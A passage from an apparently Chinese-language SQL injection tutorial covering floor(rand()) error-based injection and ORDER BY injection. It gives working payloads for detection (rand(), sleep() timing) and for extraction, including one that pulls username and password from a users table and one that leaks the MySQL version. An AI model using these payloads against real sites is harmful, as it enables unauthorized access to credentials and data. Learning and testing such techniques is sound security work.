 **优化方案**

学习的[这篇文章](https://www.freebuf.com/articles/web/257881.html)，将`rand(0)`改为了`rand(14)`，运行一下看看。

```sql
mysql> select floor(rand(14)*2) from information_schema.tables limit 0,8;
+-------------------+
| floor(rand(14)*2) |
+-------------------+
|                 1 |
|                 0 |
|                 1 |
|                 0 |
|                 0 |
|                 0 |
|                 1 |
|                 1 |
+-------------------+
8 rows in set (0.00 sec)
```

这里只需要两条数据即可报错，但是如果只有一条数据`floor()`报错注入就不能用了，因为一条数据没办法重复。



#### 1.4.2 ORDER BY注入

主要是不能使用联合注入，还有一些函数区别。

**验证方式**

升序降序

```sql
?sort=1 asc # 升序
?sort=1 desc # 降序
```

`rand()`函数验证，`rand()`每次结果随机，因此查询出结果顺序也是随机。

```sql
?sort=rand()
?sort=1 and rand()
```

延时验证，延时的时间为 (行数 * 1) 秒

```sql
?sort=sleep(1)
?sort=1 and sleep(1)
```

**利用方式**

报错注入

```sql
?sort=1 and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23 # floor()
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1) # procedure analyse
```
